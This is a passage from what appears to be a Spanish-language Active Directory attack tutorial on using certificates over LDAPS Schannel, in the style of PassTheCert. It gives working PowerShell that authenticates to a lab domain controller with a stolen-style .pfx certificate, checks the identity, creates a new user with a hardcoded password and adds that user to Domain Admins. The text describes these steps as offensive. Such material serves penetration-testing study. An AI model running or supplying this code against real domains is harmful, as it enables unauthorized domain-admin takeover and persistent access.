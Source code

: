 ## Uso de certificados

A la hora de utilizar los certificados para autenticación mediante kerberos se utiliza la extensión PKINIT, o por otro lado Schannel implementa protocolos de autenticación a través de SSL. De ambas opciones la que puede resultar más rápida de reproducir es LDAPS Schannel.

En primer lugar se define el canal de comunicación, definiendo como método de autenticación un certificado inicial.

| **Definición de canal** |
| --- |
| **Add-Type** -AssemblyName **System.DirectoryServices.Protocols**
$dummypwd= **ConvertTo-SecureString** -String"1234"-Force-AsPlainText$LdapDirectoryIdentifier=[**System.DirectoryServices.Protocols.LdapDirectoryIdentifier**]::new("dc.weird.local",636)$certificate= **New-Object**** System.Security.Cryptography.X509Certificates.X509Certificate2**("C:\Users\ed.WEIRD\tools\tmp\Certificado.pfx",$dummypwd,[**System.Security.Cryptography.X509Certificates.X509KeyStorageFlags**]::Exportable)$LdapConnection=[**System.DirectoryServices.Protocols.LdapConnection**]::new($LdapDirectoryIdentifier)$LdapConnection.ClientCertificates.Add($certificate)$LdapConnection.SessionOptions.VerifyServerCertificate={$true}$LdapConnection.SessionOptions.QueryClientCertificate={$certificate}$LdapConnection.SessionOptions.SecureSocketLayer=$true |

Tal y como se hace en _PassTheCert_[^19], en primer lugar podemos verificar con que usuario nos hemos autenticado.

| **Whoami** |
| --- |
| $whoami\_req= **New-Object**** System.DirectoryServices.Protocols.ExtendedRequest**("1.3.6.1.4.1.4203.1.11.3")$whoami\_resp=[**System.DirectoryServices.Protocols.ExtendedResponse**]$LdapConnection.SendRequest($whoami\_req)**Write-Host**"Authenticated as:"$response=[**System.Text.Encoding**]::ASCII.GetString($whoami\_resp.ResponseValue)**Write-Host**"`t$response" |

A modo de verificación es una opción, pero continua sin tener fines ofensivos, y por tanto como último paso vamos a añadir un usuario al directorio activo, e incluir este al grupo de administradores de dominio, por tanto restan las siguientes dos acciones.

| **Creación de usuario** |
| --- |
| $computer\_dn="CN=NewUser,CN=Users,DC=weird,DC=local"$upwd=[**System.Text.Encoding**]::Unicode.GetBytes("P4ssw0rd")$attributes=[**System.DirectoryServices.Protocols.DirectoryAttribute** []]@(    **New-Object** -TypeName **System.DirectoryServices.Protocols.DirectoryAttribute** -ArgumentList"objectClass",@("user")    **New-Object** -TypeName **System.DirectoryServices.Protocols.DirectoryAttribute** -ArgumentList"givenName","newUser"    **New-Object** -TypeName **System.DirectoryServices.Protocols.DirectoryAttribute** -ArgumentList"sAMAccountName","newUser"    **New-Object** -TypeName **System.DirectoryServices.Protocols.DirectoryAttribute** -ArgumentList"userAccountControl","544"    **New-Object** -TypeName **System.DirectoryServices.Protocols.DirectoryAttribute** -ArgumentList"cn","newUser"    **New-Object** -TypeName **System.DirectoryServices.Protocols.DirectoryAttribute** -ArgumentList"pwdLastSet","-1")$add\_req= **New-Object**** System.DirectoryServices.Protocols.AddRequest**($computer\_dn,$attributes)try{$add\_resp=[**System.DirectoryServices.Protocols.AddResponse**]$LdapConnection.SendRequest($add\_req)}catch[**System.DirectoryServices.Protocols.DirectoryOperationException**]{    $PSItem.ToString()} |

| **Incluir en grupo** |
| --- |
| $addMod= **New-Object**** System.DirectoryServices.Protocols.DirectoryAttributeModification**$addMod.Name="member"$addMod.Add("CN=NewUser,CN=Users,DC=weird,DC=local")$addMod.Operation=[**System.DirectoryServices.Protocols.DirectoryAttributeOperation**]::Add$mod\_req=**New-Object ****System.DirectoryServices.Protocols.ModifyRequest** ("CN=Domain Admins,CN=Users,DC=weird,DC=local",$addMod)$mod\_resp=[**System.DirectoryServices.Protocols.ModifyResponse**]$LdapConnection.SendRequest($mod\_req) |

Y llegados a este punto, ya tendríamos una base para poder tratar plantillas, certificados y entidades certificadoras, en diferentes formas.

# Referencias

[^1](#sdfootnote1anc) https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil

[^2](#sdfootnote2anc) https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg

[^3](#sdfootnote3anc) https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/mmc
